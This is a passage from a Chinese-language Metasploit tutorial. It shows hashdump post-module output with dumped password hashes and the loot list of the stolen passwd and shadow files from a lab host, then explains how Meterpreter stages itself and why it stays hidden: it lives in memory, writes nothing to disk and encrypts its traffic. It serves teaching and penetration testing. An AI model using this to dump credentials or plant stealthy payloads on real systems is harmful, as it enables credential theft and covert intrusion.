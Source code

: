 ```shell
[+] postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
[+] user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
[+] service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
[*] Post module execution completed



msf  post(hashdump) > loot

Loot
====

host            service  type          name                   content     info                            path
----            -------  ----          ----                   -------     ----                            ----
172.16.194.172           linux.hashes  unshadowed_passwd.pwd  text/plain  Linux Unshadowed Password File  /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
172.16.194.172           linux.passwd  passwd.tx              text/plain  Linux Passwd File               /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.passwd_953644.txt
172.16.194.172           linux.shadow  shadow.tx              text/plain  Linux Password Shadow File      /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.shadow_492948.txt
```


### 2.6 Meterpreter

Meterpreter 是一套高级、动态、可扩展的攻击载荷，用于内存DLL注入 stagers，并且可以实时地通过网络扩展。它通过一个 stager socket 进行通信，并提供一个综合的 客户端 RUBY api。

#### 2.6.1 Meterpreter工作原理

- 攻击目标执行初始的 stager 代码，通常为：bind、reverse、findtag、passivex 等等；
- 这个 stager 代码调用含有反射性的DLL，反射性 stub 控制着这个DLL 的调用或注入；
- Meterpreter 核心初始化，经过 socket ，发送一个GET 请求，建立一个 TLS/1.0 连接；
- Metasploit 收到这个 GET 请求，并配置这个客户端；
- 最后，Meterpreter 调用扩展模块。如果模块有管理员权限时，它将调用 stdapi 和 priv。所有这些扩展将使用TLV 协议由 TLS/1.0 调用。

#### 2.6.2 Meterpreter的设计目标

- 隐蔽性
  - 内存驻留、无磁盘操作
  - 无进程生成
  - 默认使用加密通信
  - 有限的痕迹和影响
- 功能性
  - 利用了信道通信系统
  - TLV协议受限小
- 扩展性
  -  实时可配置、可加载
  -  网络调用
  -  可增加新的功能
#### 2.6.3 Meterpreter 命令
